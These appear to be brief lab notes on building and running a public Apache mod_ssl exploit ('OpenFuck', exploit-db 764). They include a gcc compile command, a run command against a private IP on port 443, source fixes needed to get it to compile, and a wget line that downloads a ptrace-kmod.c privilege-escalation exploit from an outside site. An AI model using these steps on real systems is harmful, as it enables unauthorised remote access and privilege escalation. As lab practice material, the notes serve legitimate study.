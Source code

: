 Compile command:

gcc -o OpenF ./openfuck.c -lcrypto

Use command:

./OpenF 0x73 192.168.15.222 443


Original Exploit Location:

https://www.exploit-db.com/exploits/764/

Changes from original:

"#include < openssl/rc4 DOT h >"
"#include < openssl/md5 DOT >"

Add "const" to line 961:

const unsigned char *p, *end;

This the following wget command fails, but non-root (apache) access is still achievable

wget http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c


